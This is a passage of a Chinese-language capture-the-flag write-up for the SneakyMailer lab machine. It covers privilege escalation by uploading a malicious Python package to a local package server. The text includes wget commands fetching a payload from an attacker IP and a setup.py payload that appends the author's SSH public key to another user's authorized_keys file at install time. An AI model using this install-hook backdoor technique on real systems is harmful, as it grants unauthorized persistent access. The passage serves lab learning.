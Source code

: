 ![]({{ site.url }}/assets/SneakyMailer_197.assets/20201031025402630_31886.png)

```
wget http://10.10.14.35:8080/.pypirc
wget http://10.10.14.35:8080/payload.py

python3 payload.py sdist register -r local upload -r local
```

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201031025505651_14969.png)

进入python的虚拟环境，现在应该拥有python的全部已安装模块

`chmod +x payload.py`

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201031025721180_20323.png)

`python3 payload.py sdist register -r local upload -r local`

在1339获得了shell
但是不是正确的用户，而仍然是developer的

ctrl c 取消掉。

应该是打包时直接执行 了payload中的命令，而不是先上传完。等待low执行。

显然执行shell这条路是不行的（后面发现这是做错了）

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201031032027694_3602.png)

low用户是有ssh的。

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201031032116396_23919.png)

查看一下

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201031040619188_25830.png)

修改一下payload，执行low能执行的命令，即使报错也能往下执行安装
我们来尝试向low用户的文件夹写入我们自己的认证key，从而使我们能ssh登录，能写入则为为low直接执行写入，报错则向下进行，打包上传packages.

本地生成

`ssh-ed25519`

`$ ssh-keygen -b 2048 -t ed25519 -f ./id_rsa -q`

```
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICcbgJ5j4njB27KYDtnJJ4zvAPMo0bKtz+QfaZ1BRVwd user@k41i
```

注意给私钥600权限，稍后要使用登录

同时修改版本号和名称。防止重复
payload_4.py
```python
import setuptools

try:
    with open("/home/low/.ssh/authorized_keys", "a") as f:
        f.write("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICcbgJ5j4njB27KYDtnJJ4zvAPMo0bKtz+QfaZ1BRVwd user@k41i")
        f.close()
except Exception as e:
    pass
    setuptools.setup(
            name='payload_4',
            version='1.4',
            author='evil',
            license='MIT'
    )
```